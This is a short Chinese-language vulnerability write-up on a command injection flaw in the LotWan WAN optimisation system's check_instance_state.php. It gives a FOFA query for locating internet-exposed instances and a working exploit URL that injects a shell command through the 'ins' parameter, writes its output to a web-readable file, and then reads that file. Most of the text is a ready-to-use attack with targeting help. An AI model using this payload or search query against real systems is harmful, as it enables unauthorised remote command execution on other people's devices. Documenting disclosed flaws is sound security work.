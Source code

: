 # 华夏创新 LotWan广域网优化系统 check_instance_state.php 远程命令执行漏洞

## 漏洞描述

华夏创新 LotWan广域网优化系统check_instance_state.php文件参数 ins存在命令拼接，导致远程命令执行漏洞

## 漏洞影响

```
华夏创新 LotWan广域网优化系统
```

## FOFA

```
title="LotWan 广域网优化系统"
```

## 漏洞复现

登录页面

![image-20220519182517187](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205191825272.png)

存在漏洞的文件为

```
/acc/check_instance_state.php?ins=;id>cmd.txt
```

再访问 `/acc/cmd.txt`

![image-20220519182529097](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205191825165.png)